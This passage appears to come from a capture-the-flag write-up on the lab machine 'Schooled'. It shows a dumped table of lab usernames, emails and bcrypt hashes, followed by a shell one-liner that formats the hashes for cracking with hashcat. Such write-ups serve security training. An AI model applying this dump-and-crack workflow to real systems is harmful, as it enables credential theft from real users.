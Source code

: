 ```
| mac_amy89         | mac_amy89@student.schooled.htb         | $2y$10$PgOU/KKquLGxowyzPCUsi.QRTUIrPETU7q1DEDv2Dt.xAjPlTGK3i |
| james_boris89     | james_boris89@student.schooled.htb     | $2y$10$N4hGccQNNM9oWJOm2uy1LuN50EtVcba/1MgsQ9P/hcwErzAYUtzWq |
| pierce_allan      | pierce_allan89@student.schooled.htb    | $2y$10$ia9fKz9.arKUUBbaGo2FM.b7n/QU1WDAFRafgD6j7uXtzQxLyR3Zy |
| henry_william89   | henry_william89@student.schooled.htb   | $2y$10$qj67d57dL/XzjCgE0qD1i.ION66fK0TgwCFou9yT6jbR7pFRXHmIu |
| harper_zoe89      | harper_zoe89@student.schooled.htb      | $2y$10$mnYTPvYjDwQtQuZ9etlFmeiuIqTiYxVYkmruFIh4rWFkC3V1Y0zPy |
| wright_travis89   | wright_travis89@student.schooled.htb   | $2y$10$XFE/IKSMPg21lenhEfUoVemf4OrtLEL6w2kLIJdYceOOivRB7wnpm |
| allen_matthew89   | allen_matthew89@student.schooled.htb   | $2y$10$kFYnbkwG.vqrorLlAz6hT.p0RqvBwZK2kiHT9v3SHGa8XTCKbwTZq |
| sanders_wallis89  | sanders_wallis89@student.schooled.htb  | $2y$10$br9VzK6V17zJttyB8jK9Tub/1l2h7mgX1E3qcUbLL.GY.JtIBDG5u |
| higgins_jane      | higgins_jane@staff.schooled.htb        | $2y$10$n9SrsMwmiU.egHN60RleAOauTK2XShvjsCS0tAR6m54hR1Bba6ni2 |
| phillips_manuel   | phillips_manuel@staff.schooled.htb     | $2y$10$ZwxEs65Q0gO8rN8zpVGU2eYDvAoVmWYYEhHBPovIHr8HZGBvEYEYG |
| carter_lianne     | carter_lianne@staff.schooled.htb       | $2y$10$jw.KgN/SIpG2MAKvW8qdiub67JD7STqIER1VeRvAH4fs/DPF57JZe |
| parker_dan89      | parker_dan89@student.schooled.htb      | $2y$10$MYvrCS5ykPXX0pjVuCGZOOPxgj.fiQAZXyufW5itreQEc2IB2.OSi |
| parker_tim89      | parker_tim89@student.schooled.htb      | $2y$10$YCYp8F91YdvY2QCg3Cl5r.jzYxMwkwEm/QBGYIs.apyeCeRD7OD6S |
| 0xdf              | 0xdf@student.schooled.htb              | $2y$10$AmKUmB1aYnZKMrj/LoaYeefybrcq8mBU0JmEGKiXoDJtj0EFZBjza |
+-------------------+----------------------------------------+--------------------------------------------------------------+
28 rows in set (0.00 sec)

```

The admin username has an email address for jamie@staff.schooled.htb. I’ll use some command line foo to get them into hashcat format:

```

oxdf@parrot$ cat db_hashes | tr -d "|" | awk '{print $1":"$3}' | tee hashes
guest:$2y$10$u8DkSWjhZnQhBk1a0g1ug.x79uhkx/sa7euU8TI4FX4TCaXK6uQk2
admin:$2y$10$3D/gznFHdpV6PXt1cLPhX.ViTgs87DCE5KqphQhGYR5GFbcl4qTiW
bell_oliver89:$2y$10$N0feGGafBvl.g6LNBKXPVOpkvs8y/axSPyXb46HiFP3C9c42dhvgK
orchid_sheila89:$2y$10$YMsy0e4x4vKq7HxMsDk.OehnmAcc8tFa0lzj5b1Zc8IhqZx03aryC
chard_ellzabeth89:$2y$10$D0Hu9XehYbTxNsf/uZrxXeRp/6pmT1/6A.Q2CZhbR26lCPtf68wUC
morris_jake89:$2y$10$UieCKjut2IMiglWqRCkSzerF.8AnR8NtOLFmDUcQa90lair7LndRy
heel_james89:$2y$10$sjk.jJKsfnLG4r5rYytMge4sJWj4ZY8xeWRIrepPJ8oWlynRc9Eim
nash_michael89:$2y$10$yShrS/zCD1Uoy0JMZPCDB.saWGsPUrPyQZ4eAS50jGZUp8zsqF8tu
singh_rakesh89:$2y$10$Yd52KrjMGJwPUeDQRU7wNu6xjTMobTWq3eEzMWeA2KsfAPAcHSUPu
taint_marcus89:$2y$10$kFO4L15Elng2Z2R4cCkbdOHyh5rKwnG4csQ0gWUeu2bJGt4Mxswoa
walls_shaun89:$2y$10$EDXwQZ9Dp6UNHjAF.ZXY2uKV5NBjNBiLx/WnwHiQ87Dk90yZHf3ga
smith_john89:$2y$10$YRdwHxfstP0on0Yzd2jkNe/YE/9PDv/YC2aVtC97mz5RZnqsZ/5Em
white_jack89:$2y$10$PRy8LErZpSKT7YuSxlWntOWK/5LmSEPYLafDd13Nv36MxlT5yOZqK
travis_carl89:$2y$10$VO/MiMUhZGoZmWiY7jQxz.Gu8xeThHXCczYB0nYsZr7J5PZ95gj9S
mac_amy89:$2y$10$PgOU/KKquLGxowyzPCUsi.QRTUIrPETU7q1DEDv2Dt.xAjPlTGK3i
james_boris89:$2y$10$N4hGccQNNM9oWJOm2uy1LuN50EtVcba/1MgsQ9P/hcwErzAYUtzWq
pierce_allan:$2y$10$ia9fKz9.arKUUBbaGo2FM.b7n/QU1WDAFRafgD6j7uXtzQxLyR3Zy
henry_william89:$2y$10$qj67d57dL/XzjCgE0qD1i.ION66fK0TgwCFou9yT6jbR7pFRXHmIu
harper_zoe89:$2y$10$mnYTPvYjDwQtQuZ9etlFmeiuIqTiYxVYkmruFIh4rWFkC3V1Y0zPy
wright_travis89:$2y$10$XFE/IKSMPg21lenhEfUoVemf4OrtLEL6w2kLIJdYceOOivRB7wnpm
allen_matthew89:$2y$10$kFYnbkwG.vqrorLlAz6hT.p0RqvBwZK2kiHT9v3SHGa8XTCKbwTZq
sanders_wallis89:$2y$10$br9VzK6V17zJttyB8jK9Tub/1l2h7mgX1E3qcUbLL.GY.JtIBDG5u
higgins_jane:$2y$10$n9SrsMwmiU.egHN60RleAOauTK2XShvjsCS0tAR6m54hR1Bba6ni2
phillips_manuel:$2y$10$ZwxEs65Q0gO8rN8zpVGU2eYDvAoVmWYYEhHBPovIHr8HZGBvEYEYG
```